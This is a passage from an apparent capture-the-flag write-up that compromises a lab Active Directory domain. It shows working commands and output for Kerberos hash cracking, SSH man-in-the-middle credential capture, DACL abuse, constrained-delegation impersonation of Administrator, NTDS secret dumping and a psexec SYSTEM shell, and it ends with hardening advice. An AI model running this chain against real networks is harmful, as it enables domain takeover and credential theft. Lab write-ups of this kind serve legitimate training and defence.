```bash
hashcat loot/ryan_hash /usr/share/wordlists/rockyou.txt
```

```text,hl_lines=1 2
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
```

same box and wordlist at roughly 130x the speed, which is what makes bigger wordlists and rules practical.

```bash
impacket-getTGT HSM-DEFENSE.LOCAL/ryan.cole:'napalmcrack' -dc-ip 10.1.44.165
export KRB5CCNAME=ryan.cole.ccache
```

## RDP and an SSH man-in-the-middle

ryan isn't in Remote Management Users, so WinRM is out, but Remote Desktop Users means RDP is in:

```bash
xfreerdp3 /v:DC.HSM-DEFENSE.LOCAL /u:ryan.cole /d:HSM-DEFENSE.LOCAL /p:'napalmcrack' \
  /cert:ignore /dynamic-resolution +clipboard
```

ryan's desktop has an IT notice on it and a couple of custom icons.



one of them, HSM_Terminal, opens a small in-house "Remote Operations Terminal" that logs into a remote host over SSH.



the app connects outbound with SSH, so if i can make it connect to *me* instead, i capture whatever it authenticates with. i stand up ssh-mitm on kali and point the terminal's target at my listener:

```bash
pipx install ssh-mitm
ssh-mitm server --listen-port 2222
```

the terminal doesn't check the host key, so when it connects through the proxy it hands the credentials straight to me:



```text,hl_lines=3 4
INFO     Remote authentication failed
                 Remote Address: 127.0.0.1:22
                 Username: ITOPS01$
                 Password: paSSword2459
```

that's the second computer account, ITOPS01$:

```bash
impacket-getTGT 'HSM-DEFENSE.LOCAL/ITOPS01$:paSSword2459' -dc-ip 10.1.44.165
export KRB5CCNAME=ITOPS01$.ccache
```

## Constrained delegation to Domain Admin

ITOPS01$ has a write primitive on a service account:

```bash
bloodyad -H DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -u 'ITOPS01$' -k get writable
```

```text,hl_lines=1-2
distinguishedName: CN=Service Delegation Account,CN=Users,DC=hsm-defense,DC=local
DACL: WRITE
```



WriteDacl lets me grant myself GenericAll and reset the password, so i own svc_delegate:

```bash
bloodyad -H DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -u 'ITOPS01$' -k add genericAll svc_delegate 'ITOPS01$'
bloodyad -H DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -u 'ITOPS01$' -k set password svc_delegate 'Pass123!'
impacket-getTGT 'HSM-DEFENSE.LOCAL/svc_delegate:Pass123!' -dc-ip 10.1.44.165
export KRB5CCNAME=svc_delegate.ccache
```

svc_delegate has GenericWrite over the HELPDESK01$ computer account *and* it holds `SeEnableDelegationPrivilege` on the DC, which is the privilege that actually lets delegation settings be written. those two together mean i can turn HELPDESK01$ into a constrained-delegation account pointed at the DC. set the target service, then flip the `TRUSTED_TO_AUTH_FOR_DELEGATION` bit so protocol transition is allowed:

```bash
bloodyad -H DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -u svc_delegate -k \
  set object HELPDESK01$ msDS-AllowedToDelegateTo -v 'host/DC.HSM-DEFENSE.LOCAL'
bloodyad -H DC.HSM-DEFENSE.LOCAL -d HSM-DEFENSE.LOCAL -u svc_delegate -k \
  add uac HELPDESK01$ -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

```text
[+] HELPDESK01$'s msDS-AllowedToDelegateTo has been updated
[+] ['TRUSTED_TO_AUTH_FOR_DELEGATION'] property flags added to HELPDESK01$'s userAccountControl
```

now HELPDESK01$, the account i cracked back at the very start, can impersonate anyone to the DC. S4U2self + S4U2proxy to get a ticket as Administrator, with the service name rewritten from `host` to `cifs` so i can touch the filesystem and services:

```bash
export KRB5CCNAME=HELPDESK01$.ccache
impacket-getST -spn 'host/DC.HSM-DEFENSE.LOCAL' -altservice 'cifs/DC.HSM-DEFENSE.LOCAL' \
  -impersonate Administrator 'HSM-DEFENSE.LOCAL/HELPDESK01$:Password123' -dc-ip 10.1.44.165
```

```text,hl_lines=2 3
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from host/DC.HSM-DEFENSE.LOCAL to cifs/DC.HSM-DEFENSE.LOCAL
```

with a `cifs` ticket as Administrator, secretsdump pulls the domain over DRSUAPI:

```bash
export KRB5CCNAME='Administrator@cifs_DC.HSM-DEFENSE.LOCAL@HSM-DEFENSE.LOCAL.ccache'
impacket-secretsdump 'HSM-DEFENSE.LOCAL/Administrator@DC.HSM-DEFENSE.LOCAL' -k -no-pass
```

```text,hl_lines=2 3
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
HELPDESK01$:1105:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
ITOPS01$:1122:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
[*] Kerberos keys grabbed
```

the same Administrator ticket drops a SYSTEM shell for the root flag:

```bash
impacket-psexec HSM-DEFENSE.LOCAL/Administrator@DC.HSM-DEFENSE.LOCAL -k -no-pass
```

```text,hl_lines=1 3
C:\Windows\system32> whoami
nt authority\system
FLAG[HSM_DELEGATION…OVERRIDE]
```

done.

## What could HSM Defense improve?

- machine account passwords matter as much as user passwords. HELPDESK01$ fell to a timeroast because it had a weak, crackable password, and that single hash seeded the entire chain. machine accounts normally rotate random passwords on their own, so hunt down the ones that were set by hand or pre-created and reset them, and give service accounts random 25+ character values.
- disabling NTLM is good, but it didn't stop anything here, because every abuse path runs fine over Kerberos. the hardening has to reach the ACLs too.
- the ACL layout is the main vulnerability. WriteOwner on ServiceDesk, ForceChangePassword chains, IT OU Operators' GenericAll over whole OUs, and the OU-move-for-inheritance trick are all over-delegation. tier the admin model and strip these rights down to what the helpdesk actually needs.
- stop storing cleartext and weak-hash credentials in app configs. the MariaDB root password and the onboarding MD5s in `new_employees` each handed over a live account.
- don't allow RC4. ryan's hash cracked in seconds because i could set `msDS-SupportedEncryptionTypes` to RC4-only; enforce AES and audit writes to that attribute and to `msDS-AllowedToDelegateTo`.

Every step on this box had a catch that stopped the default tool: NTLM off, a logonHours bitmap that revoked all logons, a Deny ACE that beat a GenericAll, an AES hash that wouldn't crack. each one closed the obvious route, and getting past it meant understanding *why* it was closed. good box.

## Appendix

- [NetExec](https://github.com/Pennyw0rth/NetExec)
- [RustHound-CE](https://github.com/g0h4n/RustHound-CE)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)
- [Impacket](https://github.com/fortra/impacket)
- [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
- [kerbrute](https://github.com/ropnop/kerbrute)
- [chisel](https://github.com/jpillora/chisel)
- [ssh-mitm](https://github.com/ssh-mitm/ssh-mitm)
- [evil-winrm-py](https://github.com/adityatelange/evil-winrm-py)
- [PowerView](https://github.com/PowerShellMafia/PowerSploit)

